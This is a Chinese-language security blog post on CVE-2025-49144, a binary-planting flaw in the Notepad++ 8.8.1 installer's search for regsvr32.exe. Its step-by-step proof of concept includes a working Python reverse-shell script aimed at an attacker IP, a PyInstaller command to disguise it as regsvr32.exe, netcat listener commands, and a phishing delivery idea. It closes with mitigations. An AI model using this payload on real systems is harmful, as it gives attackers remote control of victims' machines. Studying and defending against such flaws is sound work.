 #  【CVE-2025-49144】Notepad++ 漏洞可实现系统完整入侵  
原创 骨哥说事  骨哥说事   2025-07-01 06:00  
  
<table><tbody><tr><td data-colwidth="557" width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;"><span leaf="">声明：</span></span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;"><span leaf="">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></span></h1></td></tr></tbody></table>#   
  
#   
  
****# 防走失：https://gugesay.com/archives/4498  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlbXyV4tJfwXpicwdZ2gTB6XtwoqRvbaCy3UgU1Upgn094oibelRBGyMs5GgicFKNkW1f62QPCwGwKxA/640?wx_fmt=png&from=appmsg "")  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4iaicSaXNTprbjnZBZdNyYYElVNlPTJWv5XuaeKKLQF8eCFNgice92NLBag/640?wx_fmt=png&from=appmsg "")  
  
# 背景介绍  
  
2025 年 5 月 5 日发布的 Notepad++ v8.8.1 中发现一处潜在的严重漏洞，该漏洞影响到全球数百万用户的系统访问权限。  
  
该漏洞的编号为 CVE-2025-49144 ，攻击者可以通过操纵名为 regsvr32.exe 的可执行文件来获取系统权限。  
  
本文将讨论该漏洞背后的原因、如何利用以及可能造成的后果。  
# 漏洞成因  
  
该漏洞源于 Notepad++ 安装文件中不受控制的 EXE 搜索路径，当用户执行安装文件时，它会搜索可执行文件依赖项，其中之一就是 regsvr32.exe 。它会在当前目录（安装文件所在目录）中搜索该文件，且未进行任何验证。  
  
因此攻击者可以放置名称为 regsvr32.exe 的恶意可执行文件，安装程序将被诱骗执行攻击者放置的恶意文件，从而导致二进制程序植入。  
  
攻击者便可以执行任意代码，从而可能导致 Getshell 或整个系统受到损害。  
# 攻击是如何进行的？  
  
步骤1： 创建恶意文件并将其保存为 regsvr32.py  
```
import socketimport osimport threadingimport subprocess as spip_addr = '<ATTACKER_IP_ADDRESS>'port = 4444# Set up the subprocess to run cmd.exep = sp.Popen(['cmd.exe'], stdin=sp.PIPE, stdout=sp.PIPE, stderr=sp.STDOUT)# Create a socket and connect to the specified address and ports = socket.socket()s.connect((ip_addr, port))# Define the function to read from the subprocess stdout and send to the socketdef read_and_send():    whileTrue:        o = os.read(p.stdout.fileno(), 1024)        s.send(o)# Define the function to receive from the socket and write to the subprocess stdindef recv_and_write():    whileTrue:        i = s.recv(1024)        os.write(p.stdin.fileno(), i)# Start the threads to run the above functionsthreading.Thread(target=read_and_send, daemon=True).start()threading.Thread(target=recv_and_write).start()
```  
  
步骤 2：执行下面的命令将其转换为 exe 文件，命令执行后，将看到在 dist 文件夹中创建了 regsvr32.exe 。  
  
python -m PyInstaller --onefile regsvr32.py  
  
注： 确保 regsvr32.exe 和 notepad++ 的安装文件位于同一目录中。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4ia7zCiaribPMfd2ichmldMticaPSE8wqaRicvoqE6vueYQd44iarmY6xKYr8qw/640?wx_fmt=png&from=appmsg "")  
  
  
步骤 3：在攻击者的机器上使用 netcat 设置监听器，监听器必须与恶意文件中的端口一致。  
  
Linux：  
  
nc -nvlp <PORT_NUMBER>  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4iaqYnkRE7sTbRZqg149BXaf851mgxpUsu4g2wMFicGwpEly3ia3gfAI9RQ/640?wx_fmt=png&from=appmsg "")  
  
  
Windows：  
  
ncat -nvlp <PORT_NUMBER>  
  
步骤 4： 执行 Notepad++安装文件 npp.8.8.1.Installer.x64.exe  
  
正常安装的最后一步，安装程序将提取所有文件，你将看到其中一个文件 regsvr32.exe 被执行，并且在攻击者的机器中收到反向连接。  
  
通过Process Monitor可以清楚地看到安装程序正在下载目录中搜索 regsvr32.exe 。  
  
注： 虽然是 CreateFile ，但它也可以打开现有的文件。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4iaUASlDPy810Zib8WfkC0PRyOHo7GhaUVyu2AQuGMP4KS14trXJHL69lw/640?wx_fmt=png&from=appmsg "")  
  
  
可以在下图中看到成功执行恶意文件后，建立了反向 Shell，它为受害者机器提供了命令行访问权限：  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4iaF8rRE0gaUfFg5ibyuXfUvd7hsU9RtAVp1iatLQ7p1ibtaM2s1yBD33VVA/640?wx_fmt=png&from=appmsg "")  
  
# 安全隐患  
  
该漏洞可以通过与钓鱼攻击相结合而被利用，攻击者诱骗受害者下载包含安装程序和恶意文件的zip文件。  
  
在安装此应用程序时，安装程序在搜索路径时允许攻击者执行恶意文件，从而导致任意代码执行和可能的后门程序，使攻击者完全控制受害者机器。  
# 建议措施  
1. 使用绝对路径： 要查找可执行依赖项，不应使用当前工作目录，而应使用绝对路径，如 C:\Windows\System32  
  
1. 验证完整性： 安装程序在执行文件之前应验证文件的数字签名，以确认文件未被篡改  
  
1. 避免不受信任的路径： 避免从不受信任的目录（尤其是用户可写的目录）加载任何依赖项  
  
原文：https://infosecwriteups.com/cve-2025-49144-notepad-vulnerability-allows-full-system-compromise-17944dc3fc2b  
  
- END -  
  
**加入星球，随时交流：**  
  
**********（会员统一定价）：128元/年（0.35元/天）******  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jnMJtHJnShkTnh3vR3fmaqicPicANic6OEsobrpRjx5vG6mMTib1icuPmuG74h2bxC4eP6nMMzbs5QaSlw/640?wx_fmt=jpeg&from=appmsg "")  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**  
  
